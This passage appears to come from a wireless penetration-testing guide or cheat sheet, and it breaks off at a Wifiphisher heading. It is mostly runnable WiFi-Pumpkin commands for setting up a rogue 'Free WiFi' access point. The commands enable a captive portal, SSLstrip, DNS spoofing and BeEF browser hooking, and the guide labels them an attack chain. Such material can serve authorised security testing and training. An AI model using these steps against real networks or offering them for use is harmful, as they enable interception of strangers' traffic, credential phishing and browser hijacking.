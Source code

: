 #### Module Configuration

WiFi-Pumpkin features a modular architecture with various plugins and proxies:

1. **Access Point Configuration**

```bash
# Set the interface for the access point
set interface wlan0

# Configure access point settings
set ssid "Free WiFi"
set proxy proxy_name  # e.g., pumpkinproxy or captiveflask

# Start the access point
start
```

2. **Plugins**

```bash
# List available plugins
plugins -l

# Enable a plugin
plugins -e plugin_name  # e.g., beef, dns_spoof, etc.

# Configure plugin settings
plugins -c plugin_name
```

Common WiFi-Pumpkin plugins:
- **Captive portal:** `set captive.portal true`
- **SSLstrip:** `set proxy.plugin sslstrip`
- **DNS spoof:** `set proxy.plugin dns_spoof`
- **Beef hook:** `set proxy.plugin beef_hook`

**WiFi-Pumpkin Attack Chain:**
```bash
# Start control interface
sudo wifipumpkin3
# Configure access point
set ap.interface wlan0
set ap.name "Free_WiFi"
set ap.mode NAT
# Enable plugins
set captive.portal true
set proxy.plugin pumpkinproxy
set proxy.plugin beef_hook
# Start AP
start
```

### Wifiphisher: Automated Phishing Attacks
